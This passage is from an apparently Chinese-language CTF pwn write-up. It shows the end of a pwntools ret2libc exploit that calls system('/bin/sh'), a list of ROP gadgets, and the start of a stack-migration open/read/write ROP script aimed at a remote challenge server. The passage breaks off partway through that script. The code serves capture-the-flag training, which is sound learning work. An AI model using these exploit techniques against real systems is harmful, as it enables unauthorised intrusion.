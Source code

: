 ```
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
 
pause()
payload=b'a'*0x10+p64(pop_rdi)+p64(sh)+p64(system_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
 
p.interactive()
 
# 0x000000000040129c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004012a0 : pop r14 ; pop r15 ; ret
# 0x00000000004012a2 : pop r15 ; ret
# 0x000000000040129b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040129f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040115d : pop rbp ; ret
# 0x00000000004012a3 : pop rdi ; ret
# 0x00000000004012a1 : pop rsi ; pop r15 ; ret
# 0x000000000040129d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
```
### Stack_Migration
字面意思，栈可以到处跑
正常审题程序不再罗列（checksec、IDA看字符串啥的）。
IDA中发现有沙箱
![](https://zcoi.github.io/blogs/CTF/monthgame2310/1dis1.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/1seccomp.png)
依旧是发现栈溢出。
![](https://zcoi.github.io/blogs/CTF/monthgame2310/1dis2.png)
考虑到没法直接执行shellcode，因此只能构建ROP链。实现以下功能：
```
char*file='flag';
open(file,0,0);
read(3,file,0x30);
write(1,file,0x30);
```
这里把存储flag文件的名称和栈迁移之后的ROP链一起读入到bss那里。毕竟空间充足。
```
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2109)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
 
bss_st=0x4040A0
bss_tar=0x4040A0+0x200
flag_name=0x4040a0+0x200-8
flag_addr=bss_st+0x300-0x40
 
pop_rdi=0x401373
pop_rsi2=0x401371
leave=0x4012e6
 
func_addr=elf.got['read']
write_addr=elf.plt['write']
read_addr=elf.plt['read']
```
